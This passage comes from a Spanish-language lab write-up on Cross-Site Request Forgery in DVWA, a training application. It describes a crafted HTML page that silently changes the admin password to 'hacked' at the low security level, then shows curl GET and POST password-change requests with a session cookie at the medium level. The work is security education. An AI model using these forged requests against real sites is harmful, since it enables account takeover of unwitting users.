 Como podemos observar en la siguiente imagen, vemos que nuestro archivo HTML creado está cargado en el navegador, lo que significa que el servidor local está funcionando correctamente.

<img width="914" height="442" alt="imagen" src="https://github.com/user-attachments/assets/881aace5-1e7d-4af9-9909-a629ab09a699" />

4. Verificamos el cambio:

- Tras ejecutar la víctima nuestra URL del HTML que creamos, el siguiente paso sería cerrar la cuenta que tenemos abierta (en este caso admin) y volver a loguearnos con la nueva contraseña hacked.

Al salir, hemos entrado con user:admin y password:hacked

<img width="961" height="855" alt="imagen" src="https://github.com/user-attachments/assets/eb19ff40-1ea6-4da4-a4ba-e7d898d7c96e" />

Por tanto, se ha hecho efectivo este PoC para robar contraseñas al usuario autenticado.

Nota: Usamos <img> porque en Low el cambio acepta GET. También valdría un <form> auto-submit si fuese POST.

### 🧠 ¿Por qué funciona esto?

En nivel low, DVWA no verifica:

- Si la petición viene del formulario legítimo.
- Si hay token CSRF.
- Si el método es seguro (acepta GET).

Por eso, cualquier petición GET con los parámetros correctos y una cookie válida puede cambiar la contraseña.

# Cross-Site Request Forgery (CSRF) en DVWA MEDIUM

En nivel Low, DVWA aceptaba ***cualquier petición GET*** con los parámetros correctos y una cookie válida.

1) Probamos con dos peticiones en esa ocasión: GET y POST

```bash
curl -i \
  "http://127.0.0.1:8080/vulnerabilities/csrf/?password_new=test123&password_conf=test123&Change=Change" \
  --cookie "PHPSESSID=d78uv7uh9qku7l5nbk7ht9ve20; security=medium"
```

```bash
curl -i -X POST "http://127.0.0.1:8080/vulnerabilities/csrf/" \
  --data "password_new=test123&password_conf=test123&Change=Change" \
  --cookie "PHPSESSID=d78uv7uh9qku7l5nbk7ht9ve20; security=medium"
```

Y, aunque, aparentemente nos muestra al principio de la consola la siguiente información:

HTTP/1.1 200 OK
Date: Mon, 18 Aug 2025 15:33:18 GMT
Server: Apache/2.4.25 (Debian)
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 4322
Content-Type: text/html;charset=utf-8
